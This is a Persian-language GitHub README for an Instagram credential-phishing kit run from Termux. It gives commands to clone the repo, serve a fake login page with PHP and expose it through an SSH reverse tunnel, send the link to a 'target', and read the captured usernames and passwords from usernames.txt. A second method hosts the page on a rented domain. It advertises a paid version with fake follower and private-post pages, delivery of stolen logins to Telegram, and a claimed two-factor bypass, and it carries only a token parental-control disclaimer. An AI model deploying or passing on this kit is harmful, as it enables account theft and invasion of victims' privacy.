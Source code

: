 # hack-instagram

<img src="pic1.png">
<h2>
آموزش هک اینستاگرام با ارسال لینک در ترموکس
</h2>
<h5>⚠️توجه کنید که این آموزش صرفا جهت کنترل فرزندان هست و مسئولیت و عواقب هرگونه ورود به حریم خصوصی افراد با خود شخص خواهد بود
</h5><h3>
⚙آموزش استفاده از اسکریپت:
</h3>

<h5>
ابتدا وارد ترموکس شوید:
</h5>
<h6>
اگه آموزش ترموکس رو بلد نیستید از لینک زیر آموزش رو مطالعه کنید:
<a href="https://telegra.ph/%D8%AF%D9%88%D8%B1%D9%87-%D8%AA%D8%AE%D8%B5%D8%B5%DB%8C-%D8%A2%D9%85%D9%88%D8%B2%D8%B4-%D8%AA%D8%B1%D9%85%D9%88%DA%A9%D8%B3-11-21" >آموزش ترموکس</a>
<br>
<br>
سپس در ترموکس با دستور زیر اسکریپت رو دانلود کنید:
<br><pre>
git clone https://github.com/HACKGM/hack-instagram
</pre>
سپس با دستور زیر وارد پوشه اسکریپت بشید:
<br><pre>
cd hack-instagram
</pre>
<div>
سپس لوکال هاست رو با کد زیر اجرا کنید:
<pre>
php -S 127.0.0.1:3000
</pre>
و صفحه ای جدید باز کنید با دستور زیر پورت فرواردینگ رو اجرا کنید:
<pre>
ssh -R 80:127.0.0.1:3000 nokey@localhost.run
</pre>
<br>
سپس لینک ساخته شده رو به تارگت بدید ، و بعد از ارسال لینک در ترموکس توی صفحه اول این دستور رو وارد کنید تا پسورد و یوررنیمی که تارگت وارد کرده مشاهده کنید:
<pre>
cat usernames.txt
</pre>
</br>

_______________________________________

</h6>
روش دوم با استفاده از هاست و دامنه:👇
</h6>
<h6>
ابتدا اسکریپت را از لینک زیر دانلود کنید:
<br>
https://github.com/HACKGM/hack-instagram/archive/refs/heads/main.zip
<br>
و یک هاست و دامنه تهیه کنید و فایل اسکریپت رو در اون آپلود کنید و لینک رو به تارگت بدید ، 
<br>
وقتی قربانی رمز و یورزنیمش رو در صفحه وارد کنه فایلی به نام usernames.txt در هاست شما ذخیره میشه که در اون میتونید یورزنیم و رمز اینستاگرام فرد رو مشاهده کنید.
</br>

_______________________________________

</h6>
<h4>
⭐نسخه VIP هک اینستاگرام با ارسال لینک⭐
</h4>
<h6>
نسخه رایگانی که بالا قرار دادیم کار میکنه و میتونید پسورد و یورزنیم قربانی رو هم در ترموکس دریافت کنید اما اگه قابلیت های بیشتری میخواید میتونید نسخه vip این اسکریپت رو خریداری کنید!
<br>
در نسخه vip این اسکریپت میتونید دو نوع فیک  پیج مختلف رو داشته باشید یکی به اسم افزایش فالوور و یکی دیگه به اسم نمایش پست پیج های خصوصی اینستاگرام که تصاویرشون رو میتونید مشاهده کنید:👇
<br>
<img src="pic2.png">
<br>
<img src="pic3.png">
<br>
<h5>
⭐قابلیت های نسخه vip:</h5>
<h6>
📥دریافت اطلاعات در ربات تلگرام 
<br>
📨قابلیت دور زدن تایید دومرحله ای 
<br>
📦فیک پیج افزایش فالوور با طراحی حرفه ای
<br>
📦فیک پیج نمایش پست پیج های خصوصی
<br>
<br>
🛒جهت خرید نسخه vip و اطلاعات بیشتر به فروشگاه کانال مراجعه کنید:

<a href="https://t.me/Store_Hackgm" >T.me/Store_Hackgm</a>
<br>

